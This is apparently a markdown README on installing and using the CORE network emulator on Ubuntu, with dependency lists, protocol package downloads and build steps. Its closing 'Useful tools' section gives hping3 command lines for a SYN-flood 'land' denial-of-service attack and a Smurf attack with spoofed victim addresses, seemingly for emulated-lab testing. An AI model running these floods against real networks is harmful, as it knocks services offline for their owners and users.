 # CORE (Common Open Research Emulator)
## How to install and use it on Ubuntu (tested on 17.04): A fast hand-on guide <br/><br/>  

## Table of contents
- [Install CORE from source](#install-core-from-source)
- [Use CORE](#use-core)
- [Some links](#some-links)
- [Useful tools](#useful-tools)
<br/><br/>

## Install CORE from source
1. Get the source:
    - [https://github.com/coreemu/core]()

2. Install build dependencies:
    ```
    sudo apt-get install build-essential autotools-dev automake wget git gitk
    ```

3. Install network dependencies:
    ```
    sudo apt-get install quagga xorp bird isc-dhcp-server vsftpd apache2 tcpdump radvd at ucarp openvpn ipsec-tools racoon traceroute mgen wireshark tshark docker docker-compose python-docker
    ```

4. Install GUI dependencies:
    ```
    sudo apt-get install ebtables libtcl8.5 libtk-img libtk8.5 tcl8.5 tk8.5
    ```

5. Get and install core specific protocols:
    - EMANE ([https://www.nrl.navy.mil/itd/ncs/products/emane]()):
    ```
    wget https://downloads.pf.itd.nrl.navy.mil/emane/1.0.1-r1/emane-1.0.1-release-1.ubuntu-16_04.amd64.tar.gz
    tar -xvzf emane-1.0.1-release-1.ubuntu-16_04.amd64.tar.gz
    sudo dpkg -i emane-1.0.1-release-1/debs/ubuntu-16_04/amd64/*.deb
    sudo apt-get --fix-broken install
    ```

    - OLSR ([https://www.nrl.navy.mil/itd/ncs/products/olsr]()):
    ```
    wget https://downloads.pf.itd.nrl.navy.mil/olsr/nrlolsrdv7.8.1.tgz
    tar -xvzf nrlolsrdv7.8.1.tgz
    sudo apt-get install libpcap-dev
    cd nrlolsr/unix/ && make -f Makefile.linux
    sudo mv nrlolsrd /usr/bin/
    ```

    - SMF ([https://www.nrl.navy.mil/itd/ncs/products/smf]()):
    ```
    wget https://downloads.pf.itd.nrl.navy.mil/smf/src-nrlsmf-1.1b2a.tgz
    tar -xvzf src-nrlsmf-1.1b2a.tgz
    cd smf-1.1b2/unix/ && make -f Makefile.linux
    _#FIXME_
    ```

    - NHDP([https://www.nrl.navy.mil/itd/ncs/products/nhdp]()):
    ```
    wget https://downloads.pf.itd.nrl.navy.mil/nhdp/nrlnhdp-alpha-0.47.tgz
    (contains SMF and OLSR, nothing more to do here)
    ```

6. Build and install CORE:
```
./bootstrap.sh
./configure
make
sudo make install
```

7. Reload the core-daemon service (and delete old logs):
```
sudo service core-daemon stop && sudo systemctl daemon-reload && sudo rm /var/log/core-daemon.log && sudo service core-daemon start
```

8. Generate CORE documentation
```
sudo apt-get install python-sphinx texlive-latex-base
make html
make latexpdf
```
## Use CORE
Simply start core-gui and start playing :)

## Some useful information

### Configuration files
Configuration folders for core are located at:
```
/home/<username>/.core/
/etc/core/
```
Have a close look at the /etc/core/core.conf file, don't forget to back it up first !
```
sudo cp /etc/core/core.conf /etc/core/core.conf.bak
```

If you plan to use Xen virtualization support, you can configure it in
```
/etc/core/xen.conf
```

Core daemon performance alarms can be customized in
```
/etc/core/perflogserver.conf
``` 

## Some links
- Official page: [https://www.nrl.navy.mil/itd/ncs/products/core]()
- GitHub: [https://github.com/coreemu/core]()
- Documentation: [https://downloads.pf.itd.nrl.navy.mil/docs/core/core-html/index.html]()

Tutorials:
- Install network services: [http://www.brianlinkletter.com/core-network-emulator-install-network-services/]()
- Customize network services: [http://www.brianlinkletter.com/how-to-customize-core-network-emulator-services/]()
- CORE+docker: [http://www.finmars.co.uk/blog/9-core-and-docker-together-at-last]()

## Useful tools

### hping3
Utility to spam the network ([http://0daysecurity.com/articles/hping3_examples.html]())
#### Install

```sudo apt-get install hping3```

#### DOS Land Attack 
```hping3 -V -c PKY_CNT -d DATA_SIZE -S -w WIN_SIZE -p DEST_PORT -s SRC_PORT --flood --rand-source VICTIM_IP```
#### Smurf Attack
```hping3 -1 --flood -a VICTIM_IP BROADCAST_ADDRESS```